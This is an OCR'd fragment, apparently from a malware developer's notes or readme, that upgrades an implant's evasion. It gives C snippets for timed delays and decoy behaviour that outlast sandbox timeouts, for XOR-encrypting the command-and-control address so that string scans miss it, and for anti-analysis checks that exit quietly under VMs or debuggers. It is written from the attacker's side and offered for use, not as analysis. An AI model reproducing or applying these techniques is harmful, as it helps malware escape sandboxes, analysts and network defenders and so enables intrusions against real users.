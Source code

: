 **Why Critical:**
- Sandboxes timeout at 2-5 minutes
- Real applications take time to start
- Immediate network = obvious malware

**Implementation:**
```c
// Phase 1: Random initial delay
uint32_t initial_delay = random_delay(30000, 90000);  // 30-90 seconds

// Phase 2: Decoy behavior
perform_decoy_behavior();  // 5-7 seconds

// Phase 3: Internet check
check_internet_connectivity();  // Adds time

// Phase 4: Additional jitter
jittered_sleep(5000, 2000);  // 3-7 seconds

// Total: 70-200+ seconds
```

### 2. **C2 Obfuscation: Plain → Encrypted**

**Why Critical:**
- `strings payload.exe` won't find C2
- Network analysts can't block IP immediately
- Harder to identify purpose

**Implementation:**
```c
// Build-time: Encrypt C2 address
// Runtime: Decrypt only when needed
void deobfuscate_c2_address(char* output, size_t max_len) {
    uint8_t encrypted_host[] = {0x6D, 0x5F, 0xF3, 0x7E, ...};
    for (size_t i = 0; i < len; i++) {
        output[i] = encrypted_host[i] ^ xor_key[i % 16];
    }
}
```

### 3. **Anti-Analysis: Disabled → Comprehensive**

**Why Critical:**
- 99% of sandboxes are VMs
- Debuggers are obvious
- Analysis tools have signatures

**Implementation:**
```c
// Check EVERYTHING before connecting
if (!should_execute()) {
    perform_decoy_behavior();  // Act normal
    return 0;  // Exit gracefully
}
```
